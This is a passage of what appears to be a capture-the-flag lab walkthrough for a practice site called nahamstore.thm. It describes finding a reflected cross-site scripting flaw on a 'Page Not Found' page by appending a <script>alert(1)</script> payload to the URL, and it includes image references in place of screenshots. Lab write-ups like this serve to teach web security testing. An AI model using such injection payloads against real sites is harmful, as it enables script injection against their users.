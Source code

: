 ![6xss5-2](imgs/6xss5-2.png)


XSS 6: Page Not Found
- Visit `http://nahamstore.thm/hey`
![6xss6-1](imgs/6xss6-1.png)
- `view-source:http://nahamstore.thm/hey`
	```
	...
	<h1 class="text-center">Page Not Found</h1>
	...
	```
- `http://nahamstore.thm/hey<script>alert(1)</script>`